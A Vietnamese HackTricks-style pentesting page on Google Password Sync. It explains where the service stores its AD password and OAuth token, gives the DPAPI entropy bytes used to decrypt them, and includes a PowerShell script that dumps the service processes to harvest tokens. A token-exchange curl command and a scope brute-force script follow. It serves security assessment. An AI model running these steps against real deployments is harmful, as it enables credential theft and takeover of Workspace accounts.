

# GPS - Google Password Sync

{{#include ../../../banners/hacktricks-training.md}}

## Thông tin cơ bản

Google Password Sync đồng bộ mật khẩu Microsoft Active Directory của người dùng với tài khoản Google Workspace hoặc Cloud Identity được quản lý. Công cụ này không thay đổi mật khẩu Active Directory; khi mật khẩu AD thay đổi, Password Sync sẽ đẩy thay đổi đó lên Google.<sup>[[1]](#references)</sup>

Tùy thuộc vào phiên bản sản phẩm và kiến trúc, quá trình cài đặt bao gồm `PasswordSync.exe` và `password_sync_service.exe` trong thư mục Google Password Sync. Công cụ hỗ trợ của Google kiểm tra các vị trí `C:\Program Files\Google\Password Sync`, `C:\Program Files\Google\G Suite Password Sync` và `C:\Program Files\Google\Google Apps Password Sync`, bao gồm cả các vị trí tương ứng dành cho x86.<sup>[[5]](#references)[[6]](#references)</sup>

### GPS - Cấu hình

Password Sync hỗ trợ hai phương thức xác thực Google:

- **OAuth 3-legged** cấp quyền cho quản trị viên Google Workspace và lưu token ủy quyền cho bản cài đặt. Phương thức này chỉ khả dụng trên Windows Server có Desktop Experience và từng domain controller phải được ủy quyền riêng.<sup>[[2]](#references)</sup>
- **Service account** sử dụng tệp thông tin xác thực JSON, hoạt động trên Server Core và khi cài đặt bằng dòng lệnh, đồng thời có thể được dùng lại trên nhiều domain controller. Google khuyến nghị phương thức này cho các triển khai quy mô lớn.<sup>[[2]](#references)</sup>

Service account phải được cấp quyền truy cập Workspace mà Password Sync cần. Super administrator ủy quyền client ID của service account cho scope `https://www.googleapis.com/auth/admin.directory.user`; Google cho phép dùng các vai trò Workspace có sẵn hoặc tùy chỉnh cho service account, nhưng không cho phép chính vai trò Super Admin.<sup>[[4]](#references)[[15]](#references)</sup>

Hãy xem JSON của service account như một private key. Các key của service account do người dùng quản lý không hết hạn theo mặc định và vẫn có hiệu lực cho đến khi bị vô hiệu hóa hoặc xóa, vì vậy hãy xóa JSON sau khi cấu hình và xoay vòng hoặc thu hồi key nếu bị lộ.<sup>[[3]](#references)[[16]](#references)</sup>

Để truy vấn Active Directory, Password Sync có thể dùng ngữ cảnh bảo mật của ứng dụng, quyền truy cập ẩn danh hoặc thông tin xác thực của người dùng. Ngữ cảnh bảo mật của ứng dụng là thiết lập mặc định được khuyến nghị; quyền truy cập ẩn danh thường không được hỗ trợ, còn thông tin xác thực của người dùng có thể được cung cấp cho một tài khoản vai trò có quyền tối thiểu và có thể đọc các thuộc tính thư mục cần thiết.<sup>[[3]](#references)</sup>

### GPS - Trích xuất mật khẩu và token từ ổ đĩa

> [!TIP]
> [**WinPEAS**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) phát hiện Google Password Sync, đọc cấu hình của chương trình và mô-đun GPS sẽ thử giải mã mật khẩu AD cùng OAuth token đã lưu nếu có thể đọc các giá trị registry.<sup>[[5]](#references)</sup>

Tệp **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** chứa cấu hình như **`baseDN`** của AD, tên người dùng được ủy quyền và trạng thái bật/tắt quyền truy cập ẩn danh. Công cụ hỗ trợ của Google cũng thu thập tệp này cùng các thư mục tracing của bản cài đặt.<sup>[[5]](#references)[[6]](#references)</sup>

Registry key **`HKLM\Software\Google\Google Apps Password Sync`** có thể chứa `AuthToken`, `ADPassword` và các giá trị cấu hình khác. WinPEAS đọc `AuthToken` và `ADPassword` từ key này, đồng thời cho biết việc trích xuất thông tin xác thực từ registry cần quyền quản trị viên; hãy kiểm tra ACL trên mục tiêu thay vì cho rằng mọi bản cài đặt đều có cùng các giá trị.<sup>[[5]](#references)</sup>

**Mật khẩu** đã mã hóa (nếu có) được lưu trong `ADPassword`. Phần triển khai của WinPEAS dùng `CryptUnprotectData` với entropy tùy chọn sau: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };` DPAPI thường ràng buộc việc giải mã với thông tin đăng nhập đăng nhập của người dùng mã hóa và máy tính đó; nếu đã dùng blob entropy tùy chọn thì cũng phải cung cấp blob đó khi giải mã.<sup>[[5]](#references)[[7]](#references)[[8]](#references)</sup>

Token đã mã hóa (nếu có) được lưu trong `AuthToken`. WinPEAS dùng `CryptUnprotectData` với entropy tùy chọn sau: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };` Sau đó, chương trình giải mã văn bản thu được dưới dạng base32hex bằng bảng chữ cái viết thường đầy đủ **`0123456789abcdefghijklmnopqrstuv`**.<sup>[[5]](#references)[[8]](#references)[[9]](#references)</sup>

Các giá trị entropy trên là chi tiết triển khai được quan sát trong mô-đun GPS của WinPEAS, không phải là giá trị đảm bảo cho mọi phiên bản Password Sync. Hãy xác minh chúng với phiên bản đã cài đặt trước khi dựa vào các giá trị này.<sup>[[5]](#references)</sup>

<figure><figcaption></figcaption></figure>

Việc instrument DPAPI cũng có thể làm lộ dữ liệu plaintext tại đầu vào hoặc đầu ra của `CryptProtectData` và `CryptUnprotectData`; hãy xử lý các trace đó như thông tin xác thực và xóa chúng an toàn sau khi kiểm thử.<sup>[[7]](#references)[[8]](#references)</sup>

Khi dùng xác thực service account, cùng khu vực registry có thể làm lộ các giá trị định danh như `Email` hoặc `ServiceAccountEmail`; JSON private key là một thông tin xác thực riêng biệt và không nên được giữ lại sau khi cấu hình.<sup>[[4]](#references)[[5]](#references)[[6]](#references)</sup>

### GPS - Trích xuất token từ bộ nhớ

Các bản dump toàn bộ tiến trình `PasswordSync.exe` và `password_sync_service.exe` có thể làm lộ refresh/access token hoặc thông tin xác thực AD nếu các giá trị đó đang nằm trong bộ nhớ. Tùy chọn `-ma` của ProcDump bao gồm bộ nhớ image, mapped và private, còn Strings có thể quét các chuỗi ASCII và Unicode trong bản dump thu được. Hãy xem các tệp dump và văn bản được trích xuất là bí mật.<sup>[[10]](#references)[[11]](#references)</sup>

<details>

<summary>Dump các tiến trình <code>PasswordSync.exe</code> và <code>password_sync_service.exe</code>, rồi tìm token</summary>

```bash
# Define paths for ProcDump and Strings utilities
$procdumpPath = "C:\Tools\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Tools\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
    "ya29\.[a-zA-Z0-9_\.\-]{50,}",
    "1//[a-zA-Z0-9_\.\-]{50,}"
)

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
    New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Password Sync process IDs
$processNames = @("PasswordSync", "password_sync_service")
$passwordSyncProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Password Sync process
foreach ($processId in $passwordSyncProcesses) {
    Write-Output "Dumping process with PID: $processId"
    & $procdumpPath -accepteula -ma $processId "$dumpFolder\PasswordSync_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
    $dumpFile = $_.FullName
    $baseName = $_.BaseName
    $asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
    $unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

    Write-Output "Extracting strings from $dumpFile"
    & $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
    & $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

    $outputFiles = @($asciiStringsFile, $unicodeStringsFile)

    foreach ($file in $outputFiles) {
        foreach ($regex in $tokenRegexes) {

            $matches = Select-String -Path $file -Pattern $regex -AllMatches

            $uniqueMatches = @{}

            foreach ($matchInfo in $matches) {
                foreach ($match in $matchInfo.Matches) {
                    $matchValue = $match.Value
                    if (-not $uniqueMatches.ContainsKey($matchValue)) {
                        $uniqueMatches[$matchValue] = @{
                            LineNumber = $matchInfo.LineNumber
                            LineText   = $matchInfo.Line.Trim()
                            FilePath   = $matchInfo.Path
                        }
                    }
                }
            }

            foreach ($matchValue in $uniqueMatches.Keys) {
                $info = $uniqueMatches[$matchValue]
                Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
            }
        }

        Write-Output ""
    }
}
```

</details>

### GPS - Tạo access token từ refresh token

Endpoint OAuth của Google chấp nhận refresh token, client ID, client secret tùy chọn và `grant_type=refresh_token`, sau đó trả về access token có thời hạn ngắn nếu refresh token vẫn còn hiệu lực. Hãy dùng giá trị của chính bạn trong ví dụ này; tuyệt đối không công khai refresh token hoặc client secret thật.<sup>[[12]](#references)</sup>

```bash
curl -s --data "client_id=YOUR_OAUTH_CLIENT_ID" \
     --data "client_secret=YOUR_OAUTH_CLIENT_SECRET" \
     --data "grant_type=refresh_token" \
     --data "refresh_token=YOUR_REFRESH_TOKEN" \
     https://oauth2.googleapis.com/token
```

### GPS - Phạm vi

> [!NOTE]
> Refresh token không cấp các phạm vi tùy ý. Access token bị giới hạn ở các phạm vi được cấp cho OAuth client và người dùng, và trường `scope` trong phản hồi token là danh sách có thẩm quyền về các phạm vi đã được cấp.<sup>[[12]](#references)</sup>
>
> Refresh token cũng được ràng buộc với quyền ủy quyền của client/người dùng và có thể bị từ chối nếu được dùng với client khác.<sup>[[12]](#references)</sup>

Trong một đợt đánh giá được ủy quyền, script sau có thể kiểm tra những phạm vi đã được ghi nhận mà lần trao đổi refresh token hiện tại chấp nhận. Đây là phép kiểm tra thực nghiệm đối với token và client đó, không phải cách để tăng quyền; hãy giới hạn tần suất yêu cầu và tránh kiểm tra các tài khoản bạn không kiểm soát.<sup>[[12]](#references)</sup>

<details>

<summary>Script Bash để brute-force các phạm vi</summary>

```bash
client_id="YOUR_OAUTH_CLIENT_ID"
client_secret="YOUR_OAUTH_CLIENT_SECRET"
refresh_token="YOUR_REFRESH_TOKEN"
token_url="https://oauth2.googleapis.com/token"

curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
    echo -ne "Testing $scope           \r"
    response=$(curl -s --data "client_id=$client_id" \
     --data "client_secret=$client_secret" \
     --data "grant_type=refresh_token" \
     --data "refresh_token=$refresh_token" \
     --data "scope=$scope" \
     "$token_url")
    if ! grep -q '"error"' <<< "$response"; then
        echo ""
        echo $scope
        echo $scope >> /tmp/valid_scopes.txt
    fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```

</details>

Và đây là đầu ra tôi nhận được tại thời điểm viết bài:

```
https://www.googleapis.com/auth/admin.directory.user
```

Đây là cùng một scope mà bạn nhận được nếu không chỉ định scope nào.

> [!CAUTION]
> Nếu phản hồi token bao gồm `https://www.googleapis.com/auth/admin.directory.user` và principal Workspace được ủy quyền có quyền quản lý người dùng cần thiết, phương thức `users.update` của Directory API có thể cập nhật mật khẩu của người dùng. Chỉ riêng OAuth scope không cấp quyền quản trị viên; hãy xác minh vai trò của principal và chỉ thử nghiệm với các tài khoản được phép.<sup>[[13]](#references)[[14]](#references)[[17]](#references)</sup>

## References

- [1] [Tổng quan: Password Sync](https://knowledge.workspace.google.com/admin/users/overview-password-sync?hl=en)
- [2] [Chọn phương thức xác thực cho Password Sync](https://knowledge.workspace.google.com/admin/users/choose-your-authentication-method)
- [3] [Cấu hình Password Sync](https://knowledge.workspace.google.com/admin/users/configure-password-sync?hl=en)
- [4] [Tạo service account cho Password Sync](https://knowledge.workspace.google.com/admin/users/create-a-service-account)
- [5] [Triển khai Google Password Sync trong WinPEAS](https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/winPEAS/Info/CloudInfo/GPSInfo.cs)
- [6] [Công cụ hỗ trợ Google Password Sync](https://github.com/google/password-sync-support-tool/blob/main/PasswordSyncSupportTool.vbs)
- [7] [Hàm CryptProtectData](https://learn.microsoft.com/en-us/windows/win32/api/dpapi/nf-dpapi-cryptprotectdata)
- [8] [Hàm CryptUnprotectData](https://learn.microsoft.com/en-us/windows/win32/api/dpapi/nf-dpapi-cryptunprotectdata)
- [9] [RFC 4648: Mã hóa Base-N](https://www.rfc-editor.org/rfc/rfc4648.html)
- [10] [ProcDump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump)
- [11] [Chuỗi](https://learn.microsoft.com/en-us/sysinternals/downloads/strings)
- [12] [Sử dụng OAuth 2.0 cho ứng dụng máy chủ web](https://developers.google.com/identity/protocols/oauth2/web-server)
- [13] [Phương thức: users.update](https://developers.google.com/workspace/admin/directory/reference/rest/v1/users/update)
- [14] [Tài nguyên REST: users](https://developers.google.com/workspace/admin/directory/reference/rest/v1/users)
- [15] [Tạo thông tin xác thực truy cập](https://developers.google.com/workspace/guides/create-credentials)
- [16] [Các phương pháp hay nhất để quản lý khóa service account](https://cloud.google.com/iam/docs/best-practices-for-managing-service-account-keys)
- [17] [Quản lý vai trò](https://developers.google.com/workspace/admin/directory/v1/guides/manage-roles)
{{#include ../../../banners/hacktricks-training.md}}
